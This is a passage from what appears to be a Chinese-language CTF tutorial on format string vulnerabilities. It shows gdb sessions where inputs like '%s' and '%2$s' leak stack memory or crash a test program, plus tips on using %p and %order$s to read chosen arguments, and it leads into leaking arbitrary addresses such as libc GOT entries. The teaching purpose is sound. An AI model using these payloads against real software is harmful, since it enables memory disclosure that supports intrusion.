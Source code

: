 ```shell
00000001.22222222.ffffffff.%s

Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
%s[Inferior 1 (process 57488) exited normally]
```

可以看出，在第二次执行printf函数的时候，确实是将0xffffcd04处的变量视为字符串变量，输出了其数值所对应的地址处的字符串。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

此外，我们也可以指定获取栈上第几个参数作为格式化字符串输出，比如我们指定第printf的第3个参数，如下，此时程序就不能够解析，就崩溃了。

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%2$s
00000001.22222222.ffffffff.%2$s
[1]    57534 segmentation fault (core dumped)  ./leakmemory
```

**小技巧总结**

> 1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
> 2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用%order\$x来获取指定参数的值，利用%order\$s来获取指定参数对应地址的内容。

### 泄露任意地址内存

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个libc函数的got表内容，从而得到其地址，进而获取libc版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。
